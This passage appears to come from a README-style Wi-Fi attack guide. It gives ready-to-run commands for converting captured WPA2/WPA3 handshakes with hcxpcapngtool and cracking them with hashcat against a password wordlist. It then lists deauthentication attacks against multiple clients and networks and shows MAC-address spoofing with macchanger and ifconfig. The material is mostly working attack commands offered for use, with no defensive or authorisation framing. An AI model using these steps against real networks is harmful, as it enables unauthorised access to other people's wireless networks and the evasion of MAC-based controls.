 Use `hcxpcapngtool` to convert your `.cap` or `.hccapx` to `.hc22000`:

```bash
hcxpcapngtool -o file_name.hc22000 file_name.cap
```

### 🚀 Step 2: Crack with Hashcat in Correct Mode

```bash
hashcat -m 22000 file_name.hc22000 /path/to/wifi/password/wordlist
```

* `-m 22000`: The correct WPA2/WPA3 handshake mode.
* `file_name.hc22000`: Your converted handshake.
* Wordlist path: That big juicy file you’ve got.


### 🧠 Harpy Pro Tip:

Wanna see **live cracking stats**?
Add:

```bash
--status --status-timer=10
```

To pause/resume:

* Press `p` to pause
* Press `r` to resume

---

### ✅ Example Full Command:

```bash
hashcat -m 22000 handshake.hc22000 /path/to/wifi/password/wordlist --status --status-timer=10
```

## Preconnection Attacks
- More advanced pre-connection attacks
- manually change MAC address on any supported divice.
- Target 5Ghz Networks and clients.
- Deauthenticate multiple clients simultaneously.
- Run deauth attack against multiple networks simultaneously.

### MAC spoofing

commands:
```bash
ifconfig wlan0 down 
macchanger -r wlan0 # auto change mac address
#or
ifconfig wlan0 hw ether 00:11:22:33:44:55 # manully change mac address
ifconfig wlan0 up
```
- `macchanger -r wlan0`:- auto change mac address
- `ifconfig wlan0 hw ether 00:11:22:33:44:55` :- manully change mac address
